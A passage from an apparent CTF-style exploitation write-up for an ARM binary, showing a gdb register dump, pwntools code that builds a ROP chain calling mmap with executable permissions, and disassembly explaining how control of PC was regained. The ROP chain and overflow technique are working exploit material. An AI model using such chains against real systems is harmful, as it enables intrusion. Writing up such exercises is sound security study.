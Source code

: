 ```python  
r7             0x61746161          1635017057  
r8             0x61756161          1635082593  
r9             0x61766161          1635148129  
r10            0x61776161          1635213665  
r11            0x61786161          1635279201  
r12            0x7                 7  
sp             0x7efe9b38          0x7efe9b38  
lr             0x3f                63  
pc             0x5a5a5a5a          0x5a5a5a5a  
cpsr           0x600b0110          1611333904  
fpscr          0x10                16  
"""  
address = 0x177000  
stderr = 0x00036E90  
ropchain = c[:74] + p32(stderr) + p32(address) * 4  
ropchain = ropchain.ljust(94, "A")  
ropchain += p32(r3popnothumb)  
ropchain += p32(address) #r3 dont care  
ropchain += p32(r5pop+1)  
ropchain += p32(address) #r5 dont care  
ropchain += p32(r14pop+1)  
ropchain += p32(0x1000) #r1 size  
ropchain += p32(address) #r4 dont care  
ropchain += p32(r234pop+1) #pc  
ropchain += p32(7) #r2 prot  
ropchain += p32(address) #r3 dont care  
ropchain += p32(address) #r4 dont care  
ropchain += p32(r03pop+1) #pc  
ropchain += p32(address) #r0 addr  
ropchain += p32(0x22) #r3 flags Anonimous  
ropchain += p32(mmap)  
ropchain += p32(0x0) #fildes  
ropchain += p32(0x0) #off  
ropchain += p32(0x41414141) #pc  
```

### Gaining back PC Control  
The main problem was that `mmap` assumed to be called with a `BLX`, ergo it
will return to the value inside the `lr` register.  
For whatever reason that I do not know `lr` register was set to `0x3f` so a
direct jump to `mmap` would cause a crash at the end.  
Instead of jumping directly to `mmap` then, we can use a call of `mmap` that
is already in the program somewhere.  
This, after the execution of the `mmap`, would continue the execution in that
part of the program.  
Then we just need to have the program not crashing before reaching another
return that do not use link register.  
I jumped to `0x00013E0C +1`.

```c  
.text:00013E04 200 MOV.W           R2, #3  ; prot  
.text:00013E08 200 ADD             R1, R5  ; len  
.text:00013E0A 200 STR             R5, [R4,#0x58] ; Store to Memory  
.text:00013E0C 200 BLX             mmap    ; Branch with Link and Exchange
(immediate address)  
.text:00013E10 200 ADDS            R3, R0, #1 ; Rd = Op1 + Op2  
.text:00013E12 200 STR             R0, [R4,#0x5C] ; Store to Memory  
.text:00013E14 200 BEQ.W           loc_140F0 ; Bran  
```  
To ensure that the execution would continue without crashing, I tried to set
most registers to `address`. In this way, instructions differentiating those
registers would not end up crashing.  
This actually (and surprisingly) worked. I manually executed my payload with
gdb until the program was popping another value from the stack to the `PC`